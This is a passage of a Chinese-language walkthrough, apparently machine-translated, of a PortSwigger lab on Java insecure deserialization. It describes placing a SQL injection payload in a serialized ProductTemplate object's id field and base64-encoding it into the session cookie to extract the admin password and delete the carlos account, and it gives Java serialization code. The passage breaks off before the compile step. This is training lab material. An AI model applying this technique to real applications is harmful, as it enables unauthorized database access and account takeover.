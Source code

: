 1.  从前面获得的产品模板 java 文件创建一个序列化对象。将我们的有效负载放入 id 字段，然后对序列化对象进行 base64 编码
2.  在会话 cookie 中使用步骤 1 中的 base64 编码值。一旦这个值被反序列化(readObject()将被调用)，我们就可以使用 id 字段中的有效负载来利用 sql 注入。
3.  将执行 Sql 查询，因为它在反序列化期间将调用的 readObject()方法中
4.  **注意**`private transient Product product`是瞬态的，所以这个字段不会被序列化。
5.  一旦我们利用 sql 注入提取管理员密码，我们就删除 carlos 帐户并解决实验室问题。

## 第三步

**创建序列化对象**

Port Swigger 已经提供了示例 java 文件，可以用来创建序列化对象[https://github . com/ports Swigger/serialization-examples/tree/master/Java/solution](https://github.com/PortSwigger/serialization-examples/tree/master/java/solution)。复制本地文件夹中的文件并编译它们。

![](img/a0bc55fe038cfdfc1c24cb5f8836db52.png)

如果您查看产品模板 java 文件(用于创建 serialize 对象的文件)。重要的是设置 id 字段值的构造函数。

```
// All logic removed from ProductTemplate as it's not needed for serialization
package data.productcatalog;
import java.io.Serializable;public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;private final String id;
    private transient Product product;public ProductTemplate(String id)
    {
        this.id = id;
    }
```

我们将从 Main.java 实例化 ProductTemplate 对象，调用有效负载在 `id`字段值中的构造函数，序列化该对象并进行 base64 编码。这个 base64 编码的值可以在会话 cookie 中使用。

```
public static void main(String[] args) throws Exception {
ProductTemplate originalObject = new ProductTemplate(args[0]); **//** **Take command line argument and instantiate the Object**String serializedObject = serialize(originalObject); **// serialize the object** System.out.println("Serialized object: " + serializedObject);ProductTemplate deserializedObject = deserialize(serializedObject); **// this is not required. Just for testing purpose** }private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray()); **// base64 encoding**
    }
```

编译 java 类

